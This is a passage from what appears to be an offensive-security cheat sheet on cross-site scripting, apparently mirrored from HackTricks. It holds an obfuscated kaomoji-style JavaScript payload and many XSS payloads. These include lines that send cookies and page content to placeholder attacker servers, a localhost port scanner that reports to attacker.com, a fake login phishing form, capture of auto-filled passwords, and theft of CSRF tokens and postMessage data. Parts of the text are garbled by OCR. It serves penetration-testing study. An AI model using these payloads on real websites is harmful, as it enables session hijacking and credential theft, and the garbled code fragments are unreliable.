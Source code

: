 (ﾟΘﾟ)+ (c^\_^o)+ (ﾟДﾟ)\[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟДﾟ)\[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟｰﾟ)+ (ﾟДﾟ)\[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟｰﾟ)+ (ﾟДﾟ)\[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ ((ﾟｰﾟ) + (o^\_^o))+ (ﾟДﾟ)\[ﾟεﾟ]+((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟｰﾟ)+ (ﾟДﾟ)\[ﾟεﾟ]+(ﾟｰﾟ)+ (c^\_^o)+ (ﾟДﾟ)\[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟΘﾟ)+ ((o^\_^o) - (ﾟΘﾟ))+ (ﾟДﾟ)\[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ (ﾟΘﾟ)+ (ﾟДﾟ)\[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^\_^o) +(o^\_^o))+ ((o^\_^o) +(o^\_^o))+ (ﾟДﾟ)\[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ (ﾟΘﾟ)+ (ﾟДﾟ)\[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^\_^o) - (ﾟΘﾟ))+ (o^\_^o)+ (ﾟДﾟ)\[ﾟεﾟ]+(ﾟΘﾟ)+ (ﾟｰﾟ)+ (o^\_^o)+ (ﾟДﾟ)\[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^\_^o) +(o^\_^o))+ ((o^\_^o) - (ﾟΘﾟ))+ (ﾟДﾟ)\[ﾟεﾟ]+(ﾟΘﾟ)+ ((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟΘﾟ)+ (ﾟДﾟ)\[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^\_^o) +(o^\_^o))+ (c^\_^o)+ (ﾟДﾟ)\[ﾟεﾟ]+(ﾟΘﾟ)+ ((o^\_^o) +(o^\_^o))+ (ﾟｰﾟ)+ (ﾟДﾟ)\[ﾟεﾟ]+(ﾟｰﾟ)+ ((o^\_^o) - (ﾟΘﾟ))+ (ﾟДﾟ)\[ﾟεﾟ]+((ﾟｰﾟ) + (ﾟΘﾟ))+ (ﾟΘﾟ)+ (ﾟДﾟ)\[ﾟoﾟ]) (ﾟΘﾟ)) ('\_'); \`\`\` ## XSS common payloads ### Retrieve Cookies \`\`\`javascript ![](https://github.com/boitatech/hacktricks/tree/14ead4a6929a3874c3681cbe46d7279d0916673d/pentesting-web/xss-cross-site-scripting/x)/?c="+document.cookie> ![](https://github.com/boitatech/hacktricks/tree/14ead4a6929a3874c3681cbe46d7279d0916673d/pentesting-web/xss-cross-site-scripting/x)new Image().src="http://\<IP>/?c="+encodeURI(document.cookie);new Audio().src="http://\<IP>/?c="+escape(document.cookie);location.href = 'http://\<YOUR\_SERVER\_IP>/Stealer.php?cookie='+document.cookielocation = 'http://\<YOUR\_SERVER\_IP>/Stealer.php?cookie='+document.cookiedocument.location = 'http://\<YOUR\_SERVER\_IP>/Stealer.php?cookie='+document.cookiedocument.location.href = 'http://\<YOUR\_SERVER\_IP>/Stealer.php?cookie='+document.cookiedocument.write('\<img src="http://\<YOUR\_SERVER\_IP>?c='+document.cookie+'" />')window.location.assign('http://\<YOUR\_SERVER\_IP>/Stealer.php?cookie='+document.cookie)window\['location']\['assign']\('http://\<YOUR\_SERVER\_IP>/Stealer.php?cookie='+document.cookie)window\['location']\['href']\('http://\<YOUR\_SERVER\_IP>/Stealer.php?cookie='+document.cookie)document.location=\["http://\<YOUR\_SERVER\_IP>?c",document.cookie].join()var i=new Image();i.src="http://\<YOUR\_SERVER\_IP>/?c="+document.cookiewindow.location="https://\<SERVER\_IP>/?c=".concat(document.cookie)var xhttp=new XMLHttpRequest();xhttp.open("GET", "http://\<SERVER\_IP>/?c="%2Bdocument.cookie, true);xhttp.send();eval(atob('ZG9jdW1lbnQud3JpdGUoIjxpbWcgc3JjPSdodHRwczovLzxTRVJWRVJfSVA+P2M9IisgZG9jdW1lbnQuY29va2llICsiJyAvPiIp'));fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net', {method: 'POST', mode: 'no-cors', body:document.cookie});navigator.sendBeacon('https://ssrftest.com/x/AAAAA',document.cookie) \`\`\` \{% hint style="info" %\} You \*\*won't be able to access the cookies from JavaScript\*\* if the HTTPOnly flag is set in the cookie. But here you have \[some ways to bypass this protection]\(../hacking-with-cookies.md#httponly) if you are lucky enough. \{% endhint %\} ### Steal Page Content \`\`\`javascript var url = "http://10.10.10.25:8000/vac/a1fbf2d1-7c3f-48d2-b0c3-a205e54e09e8"; var attacker = "http://10.10.14.8/exfil"; var xhr = new XMLHttpRequest(); xhr.onreadystatechange = function() { if (xhr.readyState == XMLHttpRequest.DONE) { fetch(attacker + "?" + encodeURI(btoa(xhr.responseText))) } } xhr.open('GET', url, true); xhr.send(null); \`\`\` ### Port Scanner \\(fetch\\) \`\`\`javascript const checkPort = (port) => { fetch(http://localhost:${port}, { mode: "no-cors" }).then(() => { let img = document.createElement("img"); img.src = http://attacker.com/ping?port=${port}; }); } for(let i=0; i::placeholder { color:white; }document.write("\<div style='position:absolute;top:100px;left:250px;width:400px;background-color:white;height:230px;padding:15px;border-radius:10px;color:black'>\<form action='https://example.com/'>\<p>Your sesion has timed out, please login again:\</p>\<input style='width:100%;' type='text' placeholder='Username' />\<input style='width: 100%' type='password' placeholder='Password'/>\<input type='submit' value='Login'>\</form>\<p>\<i>This login box is presented using XSS as a proof-of-concept\</i>\</p>\</div>") \`\`\` ### Auto-fill passwords capture \`\`\`javascript **Username:\</>**\
&#x20; **Password:\</>**\
&#x20; **\`\`\` When any data is introduced in the password field, the username and password is sent to the attackers server, even if the client selects a saved password and don't write anything the credentials will be ex-filtrated. ### Keylogger Just searching in github I found a few different ones: \* \[https://github.com/JohnHoder/Javascript-Keylogger]\(https://github.com/JohnHoder/Javascript-Keylogger) \* \[https://github.com/rajeshmajumdar/keylogger]\(https://github.com/rajeshmajumdar/keylogger) \* \[https://github.com/hakanonymos/JavascriptKeylogger]\(https://github.com/hakanonymos/JavascriptKeylogger) \* You can also use metasploit \`http\_javascript\_keylogger\` ### XSS - Stealing CSRF tokens \`\`\`javascript**\
**var req = new XMLHttpRequest();**\
**req.onload = handleResponse;**\
**req.open('get','/email',true);**\
**req.send();**\
**function handleResponse() {**\
&#x20;   **var token = this.responseText.match(/name="csrf" value="(\w+)"/)\[1];**\
&#x20;   **var changeReq = new XMLHttpRequest();**\
&#x20;   **changeReq.open('post', '/email/change-email', true);**\
&#x20;   **changeReq.send('csrf='+token+'\&email=test@test.com')**\
**};**\
&#x20;**\`\`\` ### XSS - Stealing PostMessage messages \`\`\`markup** ![](https://attacker.com/?)\
&#x20;**window.onmessage = function(e){**\
&#x20;**document.getElementById("message").src += "&"+e.data;**\
